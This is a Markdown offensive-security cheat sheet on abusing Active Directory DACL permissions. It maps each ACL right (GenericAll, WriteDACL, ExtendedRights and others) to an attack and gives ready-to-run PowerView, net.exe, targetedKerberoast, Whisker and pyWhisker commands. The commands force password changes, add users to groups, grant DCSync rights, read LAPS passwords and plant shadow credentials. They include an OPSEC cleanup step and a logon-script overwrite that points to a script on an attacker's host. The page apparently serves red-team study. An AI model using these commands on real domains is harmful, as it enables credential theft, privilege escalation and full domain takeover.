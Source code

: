 ```yaml
---
title: DACL Abuse
tags:
  - dacl
  - activedirectory
---
```


# ACLs Abuse Table

| ACL/ACE                                                                               | Object   | Permission                          | Abuse                                                                                        | ScreenShot                          |
| ------------------------------------------------------------------------------------- | -------- | ----------------------------------- | -------------------------------------------------------------------------------------------- | ----------------------------------- |
| **GenericAll**                                                                        | User     | Full rights                         | - [[#Force Change User Password]]<br>- [[#Targeted Kerberoast]]<br>- [[#Shadow Credentials]] | ![](GenericAll_user.PNG)            |
| **GenericAll**                                                                        | Group    | Full rights                         | [[#Add Users to Group]]                                                                      | ![](GenericAll_Group.PNG)           |
| **GenericAll**                                                                        | Computer | Full rights                         | [[RBCD\|resource-based constrained delegation]]                                              | ![](GenericAll_Computer.PNG)        |
| **GenericWrite\WriteProperty**                                                        | User     | Write/update object's attributes    | - [[#Targeted Kerberoast]]<br>- [[#Overwrite Logon Script]]                                  | ![](GenericWrite.PNG)               |
| **GenericWrite**                                                                      | Group    | Ability to self add to group        | - [[#Add Users to Group]]                                                                    | ![](GenericWrite_Group.PNG)         |
| **GenericWrite<br>WriteProperty**                                                     | Computer | Write/update object's attributes    | - [RBCD](#resource-based-constrained-delegation)                                             |                                     |
| **GenericWrite</br>AllExtendedWrite</br>GenericAll</br>WriteOwner</br>WriteProperty** | GPO      | Write object's properties           | - [[[Add self to local admin](#gpo-abuse-with-powerview)]]                                   |                                     |
| **WriteDACL**                                                                         | Domain   | modify object's ACE (full control)  | - [[#Add DCSync Privilege to object]]                                                        |                                     |
| **WriteOwner**                                                                        | User     | change owner/password               | - [[#Change password with credential\|Change User's Password with Credential]]               |                                     |
| **Self-Membership/Self**                                                              | Group    | ability to add ourself to the group | - [[#Add Users to Group\|Self Add to Group]]                                                 |                                     |
| **ExtendedRights**                                                                    | User     | change user's password              | - [[#Force Change User Password]]                                                            | ![](AllExtendedRights.PNG)          |
| **ExtendedRights**                                                                    | Group    | Read LAPS Password                  | - [[#Read LAPS]]                                                                             |                                     |
| **User-Force-Change-Password**                                                        | User     | change user's password              | - [[#Force Change User Password]]                                                            | ![](Force-Change-User-Password.PNG) |
# ACLs/ACEs Abuse
### Force Change User Password

>[!note]
>This doesn't require you to know the owned user's credential

```powershell
# PowerView
Set-DomainUserPassword -Identity studentadmin -AccountPassword (ConvertTo-SecureString -AsPlainText -Force 'P@$$w0rd!')
```

### Change password with credential

>[!note]
>Need to know owned user's password

```powershell
# Create PSCredential Object
$username='contoso\administrator'
$password=ConvertTo-SecureString -AsPlainText -Force 'P@$$w0rd!'
$cred = New-Object System.Management.Automation.PSCredential($username,$password)

# Change password with PSCredential
Set-DomainUserPassword -Identity studentadmin -Domain contoso.local -AccountPassword (ConvertTo-SecureString -AsPlainText -Force 'password123!') -Credential $cred
```

### Targeted Kerberoast
This technique will update `ServicePrincipalName` of a user object. Make sure to have a write permission on the user's attributes.

```powershell
# Set SPN
## Windows
Set-DomainObject -Identity sqlsvc -Set @{serviceprincipalname='my/sqlspn'}

# Clear SPN (OPSEC)
Set-DomainObject -Identity sqlsvc -Clear serviceprincipalname
```

There is also a repo [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) to automatically discover ACLs from the current user context against other domain objects looking for _Write_ permission on `servicePrincipalName` attribute. 

```bash
python3 targetedKerberoast.py -u jsparrow -p Password123 -d range.net --dc-ip 10.10.10.10
```

### Add DCSync Privilege to object

```powershell
Add-DomainObjectAcl -TargetIdentity "DC=contoso,DC=local" -PrincipalIdentity studentuser -Rights DCSync
```

### Add Users to Group
This command will add specific principal to a group that exists in the domain. _Note that there are several tools to perform this. Below are some of the methods that can be used. Checkout this cool tool [bloodyAD](https://github.com/CravateRouge/bloodyAD)_

```powershell
# PowerView
Add-DomainGroupMember -Identity cadmins -Members lowpriv

# net.exe
net.exe group 'cadmins' lowpriv /add /domain
```

### Overwrite Logon Script
Logon Script will run everytime user logged in._(note: use ad module)_

```powershell
Set-ADObject -SamAccountName  -PropertyName scriptpath -PropertyValue "\\attackerip\script.ps1"
```

### Read LAPS
This will only possible if you have _AllExtendedRights_ permission on a computer object.

```powershell
# PowerView
Get-DomainComputer -Properties ms-mcs-admpwd
Get-DomainComputer -LAPS
```

### Shadow Credentials
There is an attribute called `msDS_KeyCredentialLink` where raw public keys can be set. When trying to pre-authenticate with PKINIT, the KDC will check that the authenticating user has a matching private key, and a TGT will be sent if there is a match. The attribute could be controlled if the controlled account has a privilege to write on the account attributes. 

```bash
# Whisker
Whisker.exe add /target:lowpriv /domain:range.net /dc:192.168.86.182 /path:cert.pfx /password:"pfx-password"

# pyWhisker (list certificates)
py pywhisker.py -d "range.net" -u "rangeadm" -p "Password123" -t "lowpriv" --action list

# pyWhisker (modify msDS-KeyCredentialLink)
py pywhisker.py -d "range.net" -u "rangeadm" -p "Password123" -t "lowpriv" --action add
```

Once you have obtained the certificate, it can further use the [Pass-The-Certificate](#pass-the-certificate) attack to authenticate. 

> [!References]
>- https://pentestlab.blog/2022/02/07/shadow-credentials/
>- https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials
>- https://github.com/ShutdownRepo/pywhisker
>- https://github.com/eladshamir/Whisker